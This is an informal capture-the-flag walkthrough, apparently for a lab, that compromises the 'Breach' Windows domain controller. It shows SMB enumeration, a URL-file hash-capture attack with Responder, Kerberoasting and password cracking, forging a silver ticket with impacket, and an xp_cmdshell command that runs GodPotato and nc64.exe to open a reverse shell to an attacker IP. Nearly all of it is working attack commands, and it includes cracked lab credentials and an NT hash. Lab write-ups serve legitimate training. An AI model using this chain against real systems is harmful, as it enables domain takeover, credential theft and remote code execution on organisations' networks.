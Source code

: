 
![](Breach_Cover.png)



## INFO

```
[*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


Guest Share is accessible with write permission !

```
└─# crackmapexec smb 10.10.119.39 -u guest -p '' --shares
```


![](Guest_Access_.png)


## URL FILE ATTACK

We can perform this attack when we got write access to any share.

Interested Victim clicks the url file , Boom We get  [hash](https://github.com/xct/hashgrab) !


![](INternet_Short.png)


![](scf_attack.png)


![](scf_attacked.png)


If someone clicks on the url we get hash ! Start Responder !

```
└─# responder -I tun0 -v
```

![](Responder_hash.png)


If they use simple password , thats good !

![](Crack_Creds.png)




## SVC_MSSQL

Cool ! We got domain user and a lot of possibilities to enumerate.

```
└─# impacket-GetUserSPNs breach.vl/julia.wong:Computer1 -dc-ip 10.10.119.39 -request
```


![](MSSQL_hash.png)

Cracking the SPN . 

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
```

![](SPN_Cracked.png)



SERVICE TICKET CHA BHANNE --> GENERATE FUCKING SILVER TICKET !!



Convert password --< hash
```
└─# crackmapexec smb 10.10.119.39 -u svc_mssql -H 69596C7AA1E8DAEE17F8E78870E25A5C
```


Lookup for the domain sids:

```
└─# impacket-lookupsid breach.vl/svc_mssql:Trustno1@10.10.119.39 -domain-sids
```


Generate a Silver Ticket !
```
└─# impacket-ticketer -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn 'MSSQLSvc/breach.vl' Administrator
```

Export It !
```
└─# export KRB5CCNAME=Administrator.ccache
```


Explore!
```
┌──(root㉿BHASHMA)-[~/BACK_TO_THE_GAME/BREACH]
└─# impacket-mssqlclient breach.vl -k -no-pass 
```


![](Svc_Mssql.png)


Upload GodPotato and nc for the attack !

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell C:\Users\Public\God.exe -cmd "cmd /c C:\Users\Public\nc64.exe 10.8.0.148 1337 -e C:\windows\system32\cmd.exe"
```

![](SYSTEM_.png)


WE OWN THE DC ! FOR PERSISTENCE WE CAN RUN ANY C2 !!




